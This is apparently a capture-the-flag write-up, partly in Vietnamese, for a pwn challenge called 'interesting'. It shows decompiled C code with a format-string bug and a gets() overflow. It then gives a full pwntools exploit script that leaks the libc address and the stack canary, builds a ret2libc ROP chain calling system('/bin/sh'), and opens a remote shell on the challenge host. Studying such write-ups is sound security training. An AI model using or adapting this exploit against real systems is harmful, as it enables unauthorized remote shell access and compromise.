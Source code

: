 ```c
__int64 fun()
{
  __int64 v1; // [rsp+0h] [rbp-128h] BYREF
  char s[248]; // [rsp+20h] [rbp-108h] BYREF
  unsigned __int64 v3; // [rsp+118h] [rbp-10h]

  v3 = __readfsqword(0x28u);
  fgets(s, 230, stdin);
  __printf_chk(1LL, "You said: ");
  __printf_chk(1LL, s);
  puts("Do you really think that's interesting?");
  gets(&v1);
  return 7LL;
}
```

- do ban đầu mình không để ý hàm ```interesting``` nên mình quyết định lấy shell bằng ```ret2libc``` , ta sẽ dùng fsb để leak libc và canary -> ret2libc

script 

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./chal_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe

#p = process()
p = remote('interesting.ctf.prgy.in', 1337,ssl=True)

pl = b'%p'*21 + b'|%p|' + b'%p'*17 + b'|%p|'
input()
p.sendline(pl)
offset = 0x21b780
p.recvuntil(b'|')
libc.address = int(p.recvuntil(b'|')[:-1],16) - 0x8c9e1
print('libc: ',hex(libc.address))
pop_rdi = 0x000000000002a3e5+libc.address
p.recvuntil(b'|')
leak_canary = int(p.recvuntil(b'|')[:-1],16)
print(hex(leak_canary))

pl = b'a'*0x118 + p64(leak_canary) + p64(0)
pl += p64(pop_rdi) + p64(next(libc.search(b'/bin/sh\x00'))) + p64(pop_rdi+1) + p64(libc.sym.system)
input()
p.sendline(pl)


p.interactive()
```
